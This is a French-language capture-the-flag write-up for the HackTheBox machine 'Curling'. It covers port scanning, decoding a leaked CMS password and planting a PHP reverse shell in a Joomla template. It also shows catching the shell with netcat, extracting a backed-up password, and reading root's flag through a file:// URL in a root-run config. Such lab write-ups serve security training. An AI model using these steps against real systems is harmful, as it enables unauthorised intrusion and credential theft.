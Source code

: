 # Curling writeups by Seyptoo.

[![forthebadge made-with-python](https://image.noelshack.com/fichiers/2019/13/6/1553953753-capture-du-2019-03-30-14-49-00.png)]

Informations
----
    Ip : 10.10.10.150        Created by : L4mpje
    Level : Very easy           Base Points : 20

Nmap Scan
----

    Starting Nmap 7.01 ( https://nmap.org ) at 2019-03-30 14:55 CET
    Nmap scan report for 10.10.10.150
    Host is up (0.045s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
    |_  256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
    80/tcp open  http?
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 193.48 seconds
    
Alors concrètement il y'a 2 ports ouvert le SSH pour le 22 et le HTTP pour le 80. Nous allons un peu énumérer sur le serveur web.

HTTP
----

Quand nous envoyions une rêquete HTTP avec curl, on peut constater que il y'a un fichier spécial nommé secret.txt. Nous allons essayer de lire ce fichier texte.

    root@Computer:~/htb/writeup/Curling# curl http://10.10.10.150
    [...SNIP...]
    </body>
      <!-- secret.txt -->
    </html>
    root@Computer:~/htb/writeup/Curling# curl http://10.10.10.150/secret.txt
    Q3VybGluZzIwMTgh
    root@Computer:~/htb/writeup/Curling# curl http://10.10.10.150/secret.txt -s|base64 -d
    Curling2018!
    
Ceci ressemble à un mot de passe, probablement pour le CMS. Il y'a aussi un nom d'utilisateur dans un article ça pourrais nous servir.

[![forthebadge made-with-python](https://cdn.discordapp.com/attachments/561549629867425792/561578753520697368/Capture_du_2019-03-30_16-52-51.png)]

J'ai pas encore lancé de gobuster je vais lancé ça automatiquement.

Gobuster
----
    root@seyptoo-Aspire-E5-721:~/htb/writeup/Curling# gobuster -w /usr/share/wordlist/directory-list-2.3-medium.txt -u http://10.10.10.150 -o output-gobuster.log

    Gobuster v1.4.1              OJ Reeves (@TheColonial)
    =====================================================
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://10.10.10.150/
    [+] Threads      : 10
    [+] Wordlist     : /usr/share/wordlist/directory-list-2.3-medium.txt
    [+] Output file  : output-gobuster.log
    [+] Status codes : 200,204,301,302,307
    =====================================================
    /images (Status: 301)
    /media (Status: 301)
    /templates (Status: 301)
    /modules (Status: 301)
    /bin (Status: 301)
    /plugins (Status: 301)
    /includes (Status: 301)
    /language (Status: 301)
    /components (Status: 301)
    /cache (Status: 301)
    /libraries (Status: 301)
    /tmp (Status: 301)
    /layouts (Status: 301)
    /administrator (Status: 301)

 Nous avons beaucoup de dossiers, on va s'intéréssé à la page d'administration, le CMS utilisé est Joomla. J'ai essayer avec plusieurs utilisateur notamment avec admin, administrator etc.. et finalement l'utilisateur est floris et le mot de passe est Curling2018!. La connexion fonctionne avec succès.
 
 Username : floris<br />
 Password : Curling2018
 
 Joomla
 ----
 
Une fois connecté sur le CMS, allez sur l'onglet Templates et ensuite il y'aurais deux autres onglets nommé Styles et Templates, cliquez sur Templates après avoir cliqué vous devez cliqué sur 'Beez3 Details and Files' de crée un nouveau fichier php, pour le code php je vous conseille pentestmonkey une fois le code mis et bien sauvegardé. Vous pouvez exécuter votre code dans /templates/beez3/your.php


Shell > User.txt
----
    root@Computer:~/htb/writeup/Curling# nc -lvnp 1234
    Listening on [0.0.0.0] (family 0, port 1234)
    Connection from [10.10.10.150] port 1234 [tcp/*] accepted (family 2, sport 58834)
    [...SNIP...]
    $ python3 -c "import pty;pty.spawn('/bin/bash')"
    www-data@curling:/$ ls
    bin   home            lib64       opt   sbin      sys  vmlinuz
    boot  initrd.img      lost+found  proc  snap      tmp  vmlinuz.old
    dev   initrd.img.old  media       root  srv       usr
    etc   lib             mnt         run   swap.img  var
    www-data@curling:/$ cd /home/floris
    www-data@curling:/home/floris$ ls
    admin-area  password_backup  user.txt
    
Comme vous pouvez le voir il y'a un fichier password_backup, le fichier user.txt est impossible à lire car nous avons pas les permissions de lire ce fichier. Donc je vais transférer le fichier password_backup vers ma machine physique.

[![forthebadge made-with-python](https://raw.githubusercontent.com/Seyptoo/hackthebox-writeups/master/Curling/ezgif-1-a824488cc5ec.gif)]

Donc une fois que le fichier a été transférer nous pouvons jouer avec le fichier backup. Alors concrètement si nous regardons le fichier c'est un fichier en hex, nous allons utillisé la commande xxd pour convertir ça en binaire.

    root@Computer:~/htb/writeup/Curling# xxd -r password_backup > file.bin
    root@Computer:~/htb/writeup/Curling# file file.bin 
    file.bin: bzip2 compressed data, block size = 900k
    
Maintenant si nous regardons le type du fichier c'est un fichier compressé en bzip2, nous allons décompressé ça avec la commande bzip2. Ensuite il faut changer l'extension du fichier.

    root@Computer:~/htb/writeup/Curling# bzip2 -d file

Le fichier a été décompressé avec succès sans aucun problème ensuite nous allons revoir le type du fichier maintenant.

    root@Computer:~/htb/writeup/Curling# mv file.out file.out.tar
    root@Computer:~/htb/writeup/Curling# tar -xvf file.out.tar
    extracting : password.txt
    root@Computer:~/htb/writeup/Curling# cat password.txt
    5d<wdCbdZu)|hChXll
    
Nous avons réussis à chopper le mot de passe de l'utilisateur floris donc on va essayer de se connecter en SSH et de check.

    root@Computer:~/htb/writeup/Curling# ssh floris@10.10.10.150
    floris@10.10.10.150's password: 
    [...SNIP...]
    floris@curling:~$ wc -c user.txt
    33 user.txt
 
PrivEsc
----
Pour le privesc il y'a rien de bien compliqué il suffit de regarder le dossier admin-area dans /home/floris. Dans le fichier input vous devez simplement modifier la variable par file:///root/root.txt pour lire le fichier root.txt. Et lisez rapidement le fichier report avant que quelqu'un d'autre modifie le fichier input.

    file input  :
        url = "file://root/root.txt"
    file output :
        82c198ab6f[...SNIP...]
 
  
